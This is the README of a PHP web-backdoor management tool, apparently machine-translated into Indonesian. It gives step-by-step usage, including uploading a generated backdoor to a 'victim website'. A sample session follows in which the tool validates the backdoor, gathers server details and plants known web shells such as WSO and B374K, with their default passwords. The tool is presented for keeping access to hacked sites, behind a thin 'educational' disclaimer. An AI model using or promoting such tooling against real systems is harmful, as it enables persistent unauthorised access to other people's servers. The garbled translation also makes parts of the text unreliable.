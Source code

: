 # shellbckd
#### Versi 1.0

<p align="pusat">
  <img src="" alt="Deskripsi Gambar" width="300">
</p>

----
shellbckd adalah alat manajemen Backdor Sederhana berbasis PHP. Alat ini berguna bagi "PERETAS" yang ingin melacak setiap situs web yang mereka retas. Alat ini menghasilkan file Backdor yang hanya perlu Anda unggah ke situs dan meletakkan URL Backdor di shells.txt yang ada di direktori alat.

# Dengan shellbckd Anda bisa

- Impor Shell PHP
- Dapatkan Detail Server
- Unggah File Dari Sistem Anda menggunakan terminal Anda
- Dan yang terpenting, Anda Dapat Mengelola Backdor Anda dengan Efisien

# Cara Penggunaan

1. `git clone https://github.com/Yoga913/shellbckd`
2. `cd shellbckd`
3. `php shellbckd.php`
4. `generatebd` dan keluar dari alat gunakan <kbd>CTRL</kbd> + <kbd>C</kbd> - Ini akan menghasilkan file Backdor di direktori yang sama dengan alat dalam file bernama **backdoor. php**
5. Upload File Backdoor Ke Website Korban
6. Salin URL Backdor dan tempel di file **shells.txt** yang ada di direktori alat dan simpan (*Setiap Backdor dipisahkan oleh baris baru*)
7. `php shellbckd.php`
8. Masukkan **Nomor Seri** yang Ditugaskan ke Backdor
9. Istirahat cukup jelas

# Persyaratan
```
php
curl
```
# Contoh
```
root@kalilinux:/home/kalilinux/Desktop/shellbckd# php shellbckd.php

   #####################################################################             
###                                                                     ##-           
##   ##################################+##############################   ##           
##   ##                     ############ #############              ##  .#+           
##   ##                  ######          #    **     #              ##  .#+           
##   ##                #####  ##         #   *   *   #              ##  .#+           
##   ##                #   ## ##         #  *  !  *  #              ##  .##           
##   ##                ##### ##########  # *#****#+ ##              ##  .#+           
##   ##                   ###  #       # #           #              ##  .#+           
##   ##                    ##  #   ###   #           #              ##  .#+           
##   ##          #########-    #   #  #  #           #              ##  .#+           
##               ##############    #  # ##           #              ##  .#+           
##   ##                    ##-+#####  ##  ##         #              ##  .#+           
##   ##               #####        #    ##           #              ##  .#+           
##   ##           ####  ########   ###   #           #              ##  .#+           
##   ##           ##  ##   ##   ##.   ####           #              ##  .#+           
##   ##           ##  #    ##     ###    #           #              ##  .#+           
##   ##            #  #    ##            #           #              ##  .#+           
##   ##          #######   ############# #############              ##  .#+           
##   ##                                                             ##  .#+           
##   #################################################################  .#+           
##                                                                       ##           
##                                                             ##   ##  +##           
 ####+.......................                  ..............     .   ###            
     #########################################-#######################                
                        ##..-----------.   ##                                        
                       ##               .+ +##                                        
                     ###                     ###                                      
         ###################################################                          

 Sistem Manajemen Backdor Sederhana
 Dibuat oleh: yoga913
Catatan:$bold Saya Memebuat nya untuk kegiatan pendidikan penelitian selebihnya tidak bertanggung jawa.
==========================================================================================



Daftar Backdor:

0.http://localhost/backdoor.php
===============

[#] Masukkan salah satu dari ini (Nomor Backdor|bantuan|hasilkanbd): 0

[+] Shell Dipilih: http://localhost/backdoor.php
[+] Memvalidasi Backdor: Backdor Ditemukan!

Daftar Tindakan
================
[1] Impor Shell PHP
[2] Detail Server
[3] Hapus Backdor
[4] Unggah File Jarak Jauh
[5] Keluar

[#] Pilih Opsi(1|2|3|4|5):2

[+] Info Server
[i] Mengirim Permintaan Dan Mendapatkan Respons...
[i] Server: Linux Kalilinux 4.9.0-kali4-amd64 #1 SMP Debian 4.9.30-1kali1 (06-06-2017) x86_64
[i] IP Server: 127.0.0.1


Tekan Enter Untuk Melanjutkan


Daftar Tindakan
================
[1] Impor Shell PHP
[2] Detail Server
[3] Hapus Backdor
[4] Unggah File Jarak Jauh
[5] Keluar

[#] Pilih Opsi(1|2|3|4|5):1


Daftar Kerang
===============
[1] busur shell {Pengguna & Pass: shellbckd123}
[2] B374K shell {Lulus : shellbckd123}
[3] Kurama shell V.1.0 {Lulus : merah}
[4] WSO shell {Lulus : shellbckd123}
[5] MiNi shell {Pengguna & Pass: shellbckd123}

[#] Pilih Shell Untuk Diimpor(1-5):1


[i] Mengimpor Shell...
[i] Mengirim Permintaan Dan Mendapatkan Respons...
[R] Dhanush Shell Berhasil Diimpor Ke /var/www/html/busur.php


Tekan Enter Untuk Melanjutkan


Daftar Tindakan
================
[1] Impor Shell PHP
[2] Detail Server
[3] Hapus Backdor
[4] Unggah File Jarak Jauh
[5] Keluar

[#] Pilih Opsi(1|2|3|4|5):5
root@Kalilinux:/home/kalilinux/Desktop/shellbckd#

```
